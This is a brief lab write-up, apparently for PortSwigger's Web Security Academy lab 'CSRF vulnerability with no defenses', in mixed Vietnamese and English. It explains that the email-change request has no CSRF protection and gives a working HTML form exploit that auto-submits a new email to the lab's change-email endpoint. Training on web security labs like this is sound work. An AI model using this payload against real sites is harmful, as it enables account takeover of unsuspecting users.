

## CSRF vulnerability with no defenses

1. Log in vào tài khoản `wiener:peter` thử chức năng đổi email. Nhận thấy trong request không có biện pháp bảo vệ csrf

2. Craft trang exploit tạo 1 thẻ form đến trang `change-email` của target với method POST. Đồng thời là giá trị email của mình. Khi click submit, gửi một request đến target.

``<html>
    <body>
        <form action="https://0aa1002304ce87cdc07d36e50079006e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="sv_cuongdm@viettel" />
            <input type="submit"/>
</form>
    </body>
</html>``